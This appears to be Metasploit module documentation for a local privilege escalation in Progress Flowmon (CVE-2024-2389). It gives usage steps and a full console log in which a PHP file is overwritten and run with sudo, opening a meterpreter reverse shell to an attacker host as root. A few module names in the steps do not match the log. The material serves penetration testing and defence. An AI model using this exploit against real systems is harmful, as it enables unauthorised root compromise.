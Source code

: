 ## Vulnerable Application
Progress Flowmon up to at least version 12.3.2 is vulnerable to local privilege escalation from the
`flowmon` user to `root`. This is possible due to the
flowmon user being able to run several commands with
`sudo`. This module exploits the ability to overwrite a
PHP file and execute it with `sudo` granting full `sudo`
permissions to the `flowmon` user and elevating the
shell to a root shell.

For more details on the vulnerability:
https://rhinosecuritylabs.com/research/cve-2024-2389-in-progress-flowmon/ (privesc methods)

https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability

This application is avaiable in cloud marketplaces:
- https://portal.azure.com/#view/Microsoft_Azure_Marketplace/GalleryItemDetailsBladeNopdl/id/progresssoftwarecorporation.flowmon
- https://aws.amazon.com/marketplace/pp/prodview-6phnrhkekuzka
- https://console.cloud.google.com/marketplace/product/flowmon-public/flowmon-collector-for-google-cloud
## Verification Steps
1. Install the application
1. Start msfconsole
1. Gain a session on a Progress Kemp Loadmaster target as the `flowmon` user
1. Do: `use exploits/linux/local/pprogress_flowmon_sudo_privesc_2024`
1. Do: `set SESSION <session>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `root` user.

## Scenarios

### Flowmon 12.2

```msf6 exploit(linux/local/progress_flowmon_sudo_privesc) > sessions

Active sessions
===============

  Id  Name  Type                   Information                          Connection
  --  ----  ----                   -----------                          ----------
  2         meterpreter x64/linux  flowmon @ flowmon.my3m4o21xjze5fomt  138.111.211.11:4444 -> 172.174.209.1
                                   xp5e53h2h.bx.internal.cloudapp.net   01:50756 (10.1.0.4)

msf6 exploit(linux/local/progress_flowmon_sudo_privesc) > show options

Module options (exploit/linux/local/progress_flowmon_sudo_privesc):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   SESSION       2                yes       The session to run this module on
   TEMP_PAYLOAD  /tmp/sCmGZ       yes       The temporary name to use to store the payload.


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  138.111.211.11   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/progress_flowmon_sudo_privesc) > run

[*] Started reverse TCP handler on 138.111.211.11:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Copying /var/www/shtml/index.php to /tmp/index.php.bak
[*] Overwriting /var/www/shtml/index.php with payload
[*] Executing sudo to elevate privileges
[*] Replacing index.php with original file
[+] Deleted /tmp/sCmGZ
[*] Meterpreter session 3 opened (138.111.211.11:4444 -> 172.174.209.101:51042) at 2024-05-01 15:41:10 +0000

meterpreter > sysinfo
Computer     : flowmon.my3m4o21xjze5fomtxp5e53h2h.bx.internal.cloudapp.net
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.76.1.el7.flowmon.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
